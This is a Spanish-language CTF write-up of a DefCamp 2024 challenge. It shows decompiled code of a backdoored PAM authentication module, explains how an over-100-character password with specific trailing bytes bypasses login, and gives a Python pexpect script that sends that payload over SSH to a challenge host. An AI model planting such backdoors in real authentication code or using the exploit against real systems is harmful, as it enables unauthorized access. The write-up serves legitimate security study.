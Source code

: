 ```yaml
---
date: 
tier: easy
author: naibu3
ctf:
---
```

# Overview

Este es un reto "*Easy*" de la DefCamp 2024, consistía en una aplicación PAM con una backdoor que spawneaba una shell en caso de que la contraseña cumpliera ciertos requisitos. 

# Reconocimiento

Se nos da únicamente una conexión por [[22-ssh|SSH]] (IP:puerto y credenciales), al conectarnos, se nos imprimen dos archivos encodeados en *base64*, en [cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=WTI5dVptazZaR1Z1ZEdsaGJBPT0&oeol=CR) podemos convertirlo en dos archivos. Uno de ellos, es el que supuestamente tiene una *backdoor*. Podemos inspeccionar con [[ghidra]]:

```c
undefined4 pam_sm_authenticate(undefined8 param_1)

{
  int iVar2;
  size_t sVar3;
  FILE *__stream;
  char *pcVar4;
  undefined2 local_112;
  char *local_110;
  char *local_108;
  undefined4 local_100;
  undefined2 local_fc;
  undefined2 local_fa;
  undefined local_f8 [16];
  undefined local_e8 [16];
  undefined local_d8 [16];
  undefined local_c8 [16];
  undefined local_b8 [16];
  undefined local_a8 [16];
  undefined4 local_98;
  undefined local_88 [120];
  undefined auVar1 [16];
  
  rand();
  local_98 = 0;
  local_f8 = (undefined  [16])0x0;
  local_e8 = (undefined  [16])0x0;
  local_d8 = (undefined  [16])0x0;
  local_c8 = (undefined  [16])0x0;
  local_b8 = (undefined  [16])0x0;
  local_a8 = (undefined  [16])0x0;
  iVar2 = dfgebrycw();
  if (iVar2 == 0) {
    iVar2 = pam_get_user(param_1,&local_110,"Username: ");
    if (iVar2 == 0) {
      iVar2 = pam_get_authtok(param_1,6,&local_108,0);
      if (iVar2 != 0) {
        return 7;
      }
      iVar2 = dfgebrycw();
      if (iVar2 != 0) {
        return 7;
      }
      send_debug_message(param_1,local_88);
	      iVar2 = strcmp(local_108,"aptssh");                           /*COMPARACION PARA aptssh:aptssh*/
      if (iVar2 == 0) {
        iVar2 = strcmp(local_110,"aptssh");
        if (iVar2 == 0) {
          output_base64_file(param_1,"/lib/security/pam_passfile.so");
          output_base64_file(param_1,"/pam_passfile.o");
          return 0;
        }
      }
      else {                                                           /*COMPARACION ALTERNATIVA*/
        iVar2 = ierubvhcjsx();
        if (iVar2 == 0) {
          iVar2 = dfgebrycw();
          if (iVar2 != 0) {
            return 7;
          }
          pam_casual_auth(&local_112);
          sVar3 = strlen(local_108);
          if (100 < sVar3) {                             /*COMPARA LA LONGITUD DE LA CONTRASEÑA*/
            iVar2 = 7000;
            do {
              iVar2 = iVar2 + -8;
            } while (iVar2 != 0);
            local_100 = 0xadc29ec3;
            local_fa = 0xafc3;
            local_fc = local_112;
            auVar1[0xf] = 0;
            auVar1._0_15_ = local_f8._1_15_;
            local_f8 = auVar1 << 8;
            iVar2 = memcmp(local_108 + 100,&local_100,9);  /*COMPARA A PARTIR DEL CARACTER 100 DE LA CONTRASEÑA*/
            if (iVar2 == 0) {
              iVar2 = 10000;
              do {
                iVar2 = iVar2 + -8;
              } while (iVar2 != 0);
              return 0;
            }
          }
          iVar2 = ierubvhcjsx();
          if (iVar2 == 0) {
            __strcpy_chk(local_f8,local_108,100);
            iVar2 = strcmp(local_110,"sshuser");
            if (iVar2 == 0) {
              __stream = fopen("/home/sshuser/pass.txt","r");
              if (__stream == (FILE *)0x0) {
                return 7;
              }
              pcVar4 = fgets(local_f8,100,__stream);
              if (pcVar4 != (char *)0x0) {
                fclose(__stream);
                sVar3 = strcspn(local_f8,"\n");
                local_f8[sVar3] = 0;
                iVar2 = strcmp(local_108,local_f8);
                if (iVar2 != 0) {
                  return 7;
                }
                return 0;
              }
              fclose(__stream);
              iVar2 = 10000;
              do {
                iVar2 = iVar2 + -8;
              } while (iVar2 != 0);
              return 7;
            }
            iVar2 = 10000;
            do {
              iVar2 = iVar2 + -8;
            } while (iVar2 != 0);
          }
        }
      }
    }
  }
  else {
    iVar2 = 10000;
    do {
      iVar2 = iVar2 + -8;
    } while (iVar2 != 0);
  }
  return 10;
}
```

Aquí vemos dos comparaciones principales, la primera, en caso de utilizar las credenciales `aptssh:aptssh`, que nos dará los archivos que tenemos. Además, vemos que en caso de un login correcto, tenemos un código de estado `0` (`return 0;`).

En la segunda comparación, se comprueba que la longitud de la contraseña sea mayor de 100. Después, se comprueban los carácteres a partir de la posición 100:

```c
if (100 < sVar3) {    /*COMPARA LA LONGITUD DE LA CONTRASEÑA*/
	
	iVar2 = 7000;
	do {
	  iVar2 = iVar2 + -8;
	} while (iVar2 != 0);    /*DELAY*/
	
	local_100 = 0xadc29ec3;
	local_fa = 0xafc3;
	local_fc = local_112;
	auVar1[0xf] = 0;
	auVar1._0_15_ = local_f8._1_15_;
	local_f8 = auVar1 << 8;
	iVar2 = memcmp(local_108 + 100,&local_100,9);  /*COMPARA A PARTIR DEL CARACTER 100 DE LA CONTRASEÑA*/
	if (iVar2 == 0) {
	  iVar2 = 10000;
	  do {
		iVar2 = iVar2 + -8;
	  } while (iVar2 != 0);
	  return 0;
	}
  }
```

Vemos que se comparan 9 bytes del dirección a la que apunta `local_100`, sin embargo, sólo contiene 4 (`0xadc29ec3`). Por tanto, seguirá leyendo las posiciones adyacentes:

```c
undefined4 local_100;
undefined2 local_fc;
undefined2 local_fa;
undefined local_f8 [16];
```

Por tanto, debemos pasar los valores que contendrán dichas variables: `local_100 (4B) + local_fc (2B) + local_fa (2B) + local_f8 (1B)`

```c
void pam_casual_auth(undefined2 *param_1) {
  *param_1 = 0xbec2;
  return;
}
```
> `local_112` se asigna mediante esta función.

# Explotación

De esta forma nos queda un payload como: `100*A + 0xadc29ec3 + 0xbec2 + 0xafc3 + 0x00`. Ya podemos crear un script de [[python]], teniendo en cuenta que debemos mandar cada valor en *Little-Endian*:

```python
import pexpect

ssh_host = "34.159.156.124"
ssh_port = 32487
username = "sshuser"
payload = (
    b"a" * 100 +
    b"\xc3\x9e\xc2\xad\xc2\xbe\xc3\xaf"
)

child = pexpect.spawn(f"ssh -p {ssh_port} {username}@{ssh_host}")
child.expect("d:")
child.sendline(payload)
print(child.before.decode("utf-8"))
child.interact()
```

Este es un script creado por [r0-dev-null](https://github.com/r0-dev-null/ctf-writeups/tree/main/DCTF%202024%20Quals), ya que genera una shell más estable de la que logré con pwntools.